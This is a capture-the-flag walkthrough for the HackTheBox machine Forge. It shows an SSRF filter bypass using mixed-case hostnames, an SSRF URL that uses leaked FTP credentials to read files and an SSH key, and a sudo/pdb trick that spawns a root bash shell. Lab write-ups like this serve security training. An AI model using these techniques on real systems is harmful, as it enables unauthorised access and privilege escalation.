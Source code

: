 ```yaml
---
title: HackTheBox - Forge 
categories: htb SSRF 
excerpt: | 
  Forge is a medium difficulty Linux machine. 

feature_text: |
  ## Forge - Medium
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
``` 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Gallery
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's examine what type of page is with `whatweb` to see more information about it. 
Now we can analize the main page that it is running in http://10.10.11.111 and we will see that it is necesary to add host forge.htb in /etc/hosts.

There can be others subdomain so use `gobuster` to find all of them.

> admin.forge.htb

This subdomain requires to be as a localhots request but you can use the `upload from url` option, which is vulnerable to *SSRF (Server Side Request Forgery)* because you can do a request as a localhost. `Request: http://aDmIn.FoRgE.HtB`. _There are a blacklist input that you can pass playing with capital letters_.

Get the respond with `curl -s -X GET "..."`. There is another section:
> `<a href="/announcements">Announcements</a>`

Let's in and get the respond again:
```
<li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
<li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
<li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
```
Ftp is open but it seems to be filtered with firewall. So it's possible to get files with the SSRF.
```
http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.HtB
```
> drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 May 07 19:39 user.txt

There we go. We can see the private key (id\_rsa) of the user to connect with ssh.

### Privilege scalation
See the privilege of the user `sudo -l` and there is one aplication that you can run as ALL users. Take a look of how it works and then:
1. Get a new ssh conection.
2. Run as sudo this aplication.
3. Establish a new request with nc: `nc localhost {port}`
4. Submit the password
5. Generate a new interrumption (p.e enter a string instead of int)
6. pdb break point will be generate. Import os and execute: os.system('bash')

